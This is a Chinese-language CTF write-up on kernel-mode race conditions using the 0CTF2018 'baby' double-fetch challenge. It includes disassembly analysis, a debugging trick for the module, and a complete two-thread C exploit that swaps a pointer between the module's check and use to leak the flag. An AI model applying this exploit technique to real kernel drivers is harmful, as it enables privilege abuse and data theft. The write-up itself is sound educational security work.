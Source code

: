 # 条件竞争
在用户态pwn中有一类题型叫做条件竞争。当程序需要在不同时刻访问相同一块内存时，如果没有做好并发访问的限制和检查，就有可能会产生恶意数据或执行恶意代码。今天笔者就来分析一下内核态中的条件竞争，以一道经典的题辅助学习。


# 0CTF2018-baby（double fetch）
## Step 1: 分析程序与调试
按照惯例，打开IDA。
![](https://img-blog.csdnimg.cn/e7047afbb0d7497f8300c571445a1582.png)
这个模块实现的功能只有一个：ioctl。我们跟进到其调用的ioctl_impl函数看一下。
![](https://img-blog.csdnimg.cn/5303f6ef46de4a32ba173dd55789e8d4.png)
ioctl的指令码只有两种：0x6666和0x1337。当指令码为0x6666时，会打印出flag的地址。
当指令码为0x1337时，其会调用_chk_range_not_ok函数。一看名字就不难猜测，这是一个检查越界的函数：
![](https://img-blog.csdnimg.cn/c6b5819ea1fc4add968768a9a0ba9ba4.png)
上面的__CFADD__函数的功能是返回两个参数相加后的CF标志位。当两个参数相加在最高位产生进位时CF为1，否则为0。不难想到如果a1和a2相加产生进位，那么一定会导致越界溢出。传入的第三个参数应该是数组的末尾地址，后面要判断a1+a2是否大于v4。

回到ioctl_impl函数，这里判断传入的第三个参数不能大于``*(_QWORD *)(__readgsqword((unsigned int)&current_task) + 0x1358)``这个东西。那这个东西到底是多少呢，我们写一个简单的程序调用一下这个模块看看。

```c
//
// Created by root on 22-7-23.
//
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <ctype.h>
#include <pthread.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <fcntl.h>

void print_binary(char* buf, int length);

// this is a universal function to print binary data from a char* array
void print_binary(char* buf, int length){
    int index = 0;
    char output_buffer[80];
    memset(output_buffer, '\0', 80);
    memset(output_buffer, ' ', 0x10);
    for(int i=0; i<(length % 16 == 0 ? length / 16 : length / 16 + 1); i++){
        char temp_buffer[0x10];
        memset(temp_buffer, '\0', 0x10);
        sprintf(temp_buffer, "%#5x", index);
        strcpy(output_buffer, temp_buffer);
        output_buffer[5] = ' ';
        output_buffer[6] = '|';
        output_buffer[7] = ' ';
        for(int j=0; j<16; j++){
            if(index+j >= length)
                sprintf(output_buffer+8+3*j, "   ");
            else{
                sprintf(output_buffer+8+3*j, "%02x ", ((int)buf[index+j]) & 0xFF);
                if(!isprint(buf[index+j]))
                    output_buffer[58+j] = '.';
                else
                    output_buffer[58+j] = buf[index+j];
            }
        }
        output_buffer[55] = ' ';
        output_buffer[56] = '|';
        output_buffer[57] = ' ';
        printf("%s\n", output_buffer);
        memset(output_buffer+58, '\0', 16);
        index += 16;
    }
}

int main(){
    int fd = open("/dev/baby", O_RDWR);
    int a;
    printf("%p\n", main);
    scanf("%d", &a);
    ioctl(fd, 0x6666);
    char b[0x10] = {0};
    ioctl(fd, 0x1337, b);
}
```

不知道是什么原因，本题的内核没有办法直接下断点，也没有办法将断点下在用户态程序中。尝试了很长时间，才找到调试的方法：

### 重要：内核模块调试方法：
首先打开init文件，将权限改为root（即在启动sh的那一行把gid从1000改成0），然后启动内核输入lsmod命令获取到模块的加载地址。然后我们**不用去管syscall到底调用了模块的什么函数，不用去管这个函数在什么地方，直接将断点下在输出的加载地址上。注意，其输出的地址是模块加载的起始地址，但依然可以发挥断点的作用。**
```
/ # lsmod
baby 16384 0 - Live 0xffffffffc02f8000 (OE)
```
如上面的输出，我们可以直接将断点下在0xffffffffc02f8000，而无需在其上加上ioctl函数的偏移，也可以起到断点的作用。（亲测有效）

通过这种方式，我们成功调试漏洞模块，然后找到了``*(_QWORD *)(__readgsqword((unsigned int)&current_task) + 0x1358)``的值到底是多少：0x7ffffffff000。这是用户态栈区的最高地址，因此只要我们传入的是一个不太大的地址，都是可以的。
![](https://img-blog.csdnimg.cn/e00e1f4520c14f25a8ed3a7081c2183c.png)
再回去看一下反汇编，注意第一个检查中的第一个参数cmpStr应该是一个指针，而第二个检查中的第二个参数应该表示字符串的长度，这里是将地址的值和第二个参数相加，因此不难猜测。即使猜不出来，第三个检查应该就非常明显了，检查这里的值是否等于flag的长度。flag的长度为33。因此我们要传入的参数应该是一个结构体的地址，这个结构体的前8字节是一个char*指针，后面8字节是33。
![](https://img-blog.csdnimg.cn/f93aadf8db39412ca658af074d21fa9c.png)
在判断之后，会对传入的字符串进行检查，如果与flag相等则输出flag。这里就产生了竞争条件漏洞。

<font color=red>**如果在进行if判断的时候，我们的地址传入的是正常的用户态地址，而在执行后面的字符串比较时，这个地址就被改变到了flag处，会怎么样呢？显然模块会用flag去比较其自身，这样显然是相等的。然后flag就能够被输出。如果我们使用双线程，就可以和内核模块竞争字符串地址这块内存的访问。只要能够在这个时间窗口成功修改字符串地址，后面的检查就可以通过。因此简单点说，竞争条件就是“时间的活”。**</font>

在C语言中，我们使用pthread_create函数创建一个线程，可以让一个线程执行一个函数。具体的参数调用规则参见[资料](https://blog.csdn.net/wushuomin/article/details/80051295?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165858376216782391822691%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=165858376216782391822691&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-80051295-null-null.142^v33^control,185^v2^control&utm_term=pthread_create&spm=1018.2226.3001.4187)。

因此我们写出exp：

```c
//
// Created by root on 22-7-23.
//
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <stdbool.h>
#include <string.h>
#include <ctype.h>
#include <pthread.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <fcntl.h>

typedef struct msg{
    char* buffer;
    int length;
}msg;
size_t flag_address;
bool success = false;
#define WRITE_TIME 1000
msg m;
pthread_t competition_thread;

void* competition(){
    while(!success){
        for(int i=0; i<WRITE_TIME; i++)
            m.buffer = flag_address;
    }
    return NULL;
}

int main(){
    int fd = open("/dev/baby", O_RDWR);
    ioctl(fd, 0x6666);
    system("dmesg | grep 'flag' > temp.txt");

    int file = open("/temp.txt", O_RDWR);
    char context[0x100] = {0};
    read(file, context, 49);
    flag_address = strtoull(context + 31, NULL, 16);
    close(file);

    m.buffer = context;
    m.length = 33;

    pthread_create(&competition_thread, NULL, competition, NULL);
    while(!success){
        for(int i=0; i<WRITE_TIME; i++){
            m.buffer = context;
            ioctl(fd, 0x1337, &m);
        }
        system("dmesg | grep 'flag' > temp.txt");
        file = open("/temp.txt", O_RDWR);
        read(file, context, 0x80);
        if(strstr(context, "flag{") != NULL)
            success = true;
    }

    printf("%s\n", context);

}

```

其中在规划两者竞争的时候需要注意应该如何写代码，我们应该让二者充分竞争，所以双方修改这一个地方的总次数最好不要相差太多，否则可能难以达到竞争的目的。
![](https://img-blog.csdnimg.cn/52944e2a49444a7483022b8c38567c9d.png)
由此可见，本题中竞争条件的利用并不是很难，难就难在当我们拿到这一题时，我们应该怎样才能够发现这道题存在条件竞争漏洞。本题的条件竞争属于double fetch，它通常的流程是：检查代码首先访问某一块内存，确认数据没有问题后主要操作代码再一次访问同一块内存，显然当这块内存没有被上锁的情况下，中间的时间空当是可以被利用的，这种检查也是线程不安全的。
